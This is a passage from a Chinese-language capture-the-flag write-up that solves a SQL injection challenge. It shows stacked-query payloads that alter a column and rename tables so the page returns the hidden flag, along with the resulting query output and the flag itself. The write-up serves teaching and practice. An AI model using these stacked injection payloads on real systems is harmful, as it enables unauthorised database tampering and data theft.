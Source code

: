 应为现在他俩的字段还不一样，改为一样的字段。

	?inject=-1';alter table `1919810931114514` change flag data varchar(100) --+


改好了：

```
array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(3) "YES"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(11)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(3) "PRI"
  [4]=>
  NULL
  [5]=>
  string(14) "auto_increment"
}
```



那么接下来就是要把含有flag的表变为现在与页面交互的表。

先将words改为其他表,在将含有flag的表改为words表。

	?inject=-1';rename table `words` to `tables`;rename table `1919810931114514` to `words` --+

现在查询1即可得出flag，

```
array(2) {
  [0]=>
  string(38) "flag{c168d583ed0d4d7196967b28cbd0b5e9}"
  [1]=>
  string(1) "1"
}
```
